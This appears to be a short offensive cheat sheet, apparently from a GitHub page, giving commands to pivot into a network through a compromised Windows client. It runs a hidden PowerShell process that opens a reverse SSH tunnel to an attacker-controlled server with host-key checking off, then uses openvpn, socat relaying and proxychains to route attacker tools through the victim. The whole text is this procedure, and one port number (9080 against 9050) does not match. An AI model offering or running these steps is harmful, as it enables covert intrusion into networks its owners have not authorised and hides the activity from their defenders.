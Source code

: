 # start ssh connection from compromised client to ssh server
```
Start-Process -FilePath "powershell" -ArgumentList " -w hidden -c ssh -p 22 -o 'StrictHostKeyChecking=no' -i $HOME\.ssh\<privateKey> -N -R 9050 <user>@<sshRhost>"
```

# start vpn from local attacker machine to ssh server
```
openvpn --config <file>.ovpn
```

# check if port 9050 on ssh server is reachable from attacker machine
```
nmap -p 9080 -Pn -n <sshRhost>
```

# if not redirect traffic on rootserver
```
socat TCP-LISTEN:9051,fork TCP:localhost:9050
```

# reconfigure listener port on attacker machine
```
sed -i 's/ 9050/ 9051/g' /etc/proxychains4.conf
```

# execute tools on attacker machine
```
proxychains firefox
```

